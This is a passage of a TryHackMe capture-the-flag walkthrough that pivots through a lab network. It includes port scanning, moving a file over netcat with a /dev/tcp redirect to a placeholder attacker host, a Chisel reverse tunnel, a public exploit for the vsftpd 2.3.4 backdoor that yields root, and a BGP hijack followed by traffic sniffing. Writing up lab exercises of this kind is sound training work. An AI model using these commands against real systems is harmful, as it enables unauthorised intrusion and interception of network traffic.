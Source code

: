 Now, we proceed to scan the available ports on the victim machine using the following command:

```
nmap --open -T5 -v -n -p- 172.16.1.128
```

To carry out port forwarding, we shall employ the use of Chisel, which can be downloaded from this source: [https://github.com/jpillora/chisel/releases/tag/v1.8.1](https://github.com/jpillora/chisel/releases/tag/v1.8.1) Once we have the Chisel binary, we transfer it to the victim machine and configure it to connect to our server: On our machine, we open a waiting connection: `nc -nlvp 443 < chisel` On the victim machine, we use the following command to transfer the Chisel binary: `cat > chisel < /dev/tcp/ipatacante/443` We notice that the victim's FTP server is vsftpd 2.3.4 and that it is vulnerable to Backdoor command execution. To exploit this vulnerability, we clone the following repository: 

```
git clone https://github.com/Hellsender01/vsftpd_2.3.4_Exploit
```

And we execute it. Remember that we are using Chisel, so our localhost is actually the victim machine. This script requires that port 6200 be tunneled through Chisel, so we do the following: 

*On our machine > `./chisel server --reverse -p 1234`
*On the victim machine > `/chisel client 10.2.39.16:1234 R:6200:172.16.1.128:6200 R:2121:172.16.1.128:21`
*And on our machine > `python3 exploit.py 127.0.0.1`

We have obtained root access to another victim machine, and also have the flag in the `/root/` directory. By using the `ps` command, we can view the active processes and see that `bgpd` is running. We could attempt a BGP hijacking attack, let's view the configuration file with the following command:

```
cat /etc/quagga/bgpd.conf
```

Here we can see our router and the two neighbors we have, so we need to intercept the "conversation" between them. Therefore, we need to redirect all traffic to ourselves. To accomplish this, we searched for an article that explains how to do it, and I recommend this one: [https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246](https://medium.com/r3d-buck3t/bgp-hijacking-attack-7e6a30711246)

In the terminal, we typed the command `vtysh` to begin configuring everything. First, we connected to the router and configured the BGP protocol to announce our subnets using the following commands: 

```
configure terminal 
router bgp 60001 
network 172.16.2.0/25 
network 172.16.3.0/25 
end 
clear ip bgp * out 
```

Once we have configured the router, we used the `tcpdump` command to intercept the network traffic and search for the necessary flags with the following command: 

```
tcpdump -i eth0 -A
```

After analyzing the captured traffic, we found the UDP and TCP flags we needed to solve the challenge. With this, we have successfully solved the #tryhackme machine challenge.
